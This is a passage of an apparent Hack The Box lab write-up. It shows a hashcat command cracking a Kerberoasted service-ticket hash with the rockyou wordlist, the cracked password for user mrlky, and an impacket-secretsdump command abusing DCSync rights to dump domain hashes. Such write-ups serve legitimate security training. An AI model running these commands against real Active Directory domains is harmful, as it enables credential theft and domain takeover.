 ![image42](../resources/befe58dd6b5d44eca06df94c97777820.png)

- Copy the hash to a file and crack:

```bash
hashcat -m 13100 -a 0 hash2.txt /usr/share/wordlists/rockyou.txt
```

![image43](../resources/03d137b7b3a941289595cb44f29aeb5b.png)

**Mrlky : Football#7**

- Since the user has DCSync rights - we can dump hashes:

```bash
impacket-secretsdump htb.local/mrlky:Football#7@10.129.7.164

```
